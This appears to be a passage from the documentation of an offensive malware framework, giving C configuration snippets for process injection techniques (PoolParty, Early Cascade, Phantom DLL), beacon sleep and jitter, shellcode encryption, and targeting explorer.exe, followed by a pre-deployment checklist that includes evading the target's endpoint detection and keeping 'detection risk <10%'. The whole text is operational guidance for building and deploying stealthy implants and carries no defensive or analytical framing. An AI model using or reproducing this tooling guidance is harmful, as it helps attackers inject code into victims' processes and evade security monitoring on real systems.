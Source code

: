 ```c
// In integrated_loader.c or process_injection_complete.c

// Default: PoolParty (most stealthy)
config.injectionMethod = POOLPARTY_TP_TIMER;

// Alternative: Early Cascade (pre-EDR timing)
config.injectionMethod = EARLY_CASCADE;

// Alternative: Phantom DLL (transactional NTFS)
config.injectionMethod = PHANTOM_DLL;
```

### 2. Adjust Sleep Interval

```c
// In beacon_stealth.c

config.dwSleepInterval = 60000;  // 1 minute
config.dwJitter = 20;            // 20% jitter (48-72 seconds actual)
```

### 3. Change Encryption Method

```c
// In any template

config.bUseAES = TRUE;   // AES-256 (stronger, recommended)
config.bUseAES = FALSE;  // RC4 (faster, less CPU)
```

### 4. Add Process Enumeration

```c
// Find process by name instead of PID
DWORD dwPID = FindProcessByName(L"explorer.exe");
if (dwPID == 0) {
    printf("[-] Process not found\n");
    return 1;
}
config.dwTargetPID = dwPID;
```

---

## Testing Checklist

Before deploying generated code:

- [ ] Code compiles without errors
- [ ] All technique headers included
- [ ] Shellcode encrypted (not plaintext)
- [ ] Target process/PID verified
- [ ] Cleanup functions called
- [ ] Error handling present
- [ ] Appropriate techniques enabled for target EDR
- [ ] Compilation command provided
- [ ] Detection risk <10%

---